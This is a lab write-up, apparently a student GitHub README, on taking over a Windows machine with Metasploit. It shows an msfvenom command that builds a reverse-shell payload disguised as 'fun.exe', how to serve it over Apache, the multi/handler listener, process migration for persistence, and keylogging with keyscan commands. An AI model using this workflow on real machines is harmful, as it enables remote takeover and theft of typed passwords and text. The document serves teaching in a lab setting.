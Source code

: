 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:
![image](https://github.com/user-attachments/assets/9f114080-577e-4c4d-89a5-c8e1aee90f9b)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT
![image](https://github.com/user-attachments/assets/a0433240-4454-4e40-9bea-151b21c11e14)


copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/user-attachments/assets/4568276e-b714-4120-8f87-bc8a8e5af006)


Start apache server
sudo systemctl apache2 start

![image](https://github.com/user-attachments/assets/2bec5ee3-c7da-46dd-850d-78b9b1a2b5f8)



Check the status of apache2

![image](https://github.com/user-attachments/assets/ec9a2d75-8aa7-4d07-9398-cfc1d257eb33)


Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![image](https://github.com/user-attachments/assets/95bcd6da-385e-433e-a4f5-e35cdd9101fc)


Starting a command and control Server
use multi/handler
![image](https://github.com/user-attachments/assets/f0ff5564-496c-450a-8808-2db975e874a4)


set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.
![6 7](https://github.com/user-attachments/assets/76927041-303e-4d38-a66e-8bd6e89d6563)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/user-attachments/assets/049996e8-1ca7-41cb-a270-e2df3b357376)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/user-attachments/assets/07d9f86d-ca95-427a-b005-9e6969354176)



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
![6 10](https://github.com/user-attachments/assets/66442dd7-aedd-4c09-8d4c-4100ae0ac911)

A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![migrate-Nexplorer](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/836e6efa-423f-4553-ad2f-19170b010892)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/user-attachments/assets/f5776fc3-80cb-4ae1-8ba0-f8bf1cd4771a)
![6 14](https://github.com/user-attachments/assets/781f8912-c6e5-4a38-9f49-da7c39338628)


keyscan_dump	Shows the keystrokes captured so far
![image](https://github.com/user-attachments/assets/1ca75d17-301e-4c88-9082-6bfcfab05318)







## RESULT:
The Metasploit framework for reconnaissance is  examined successfully

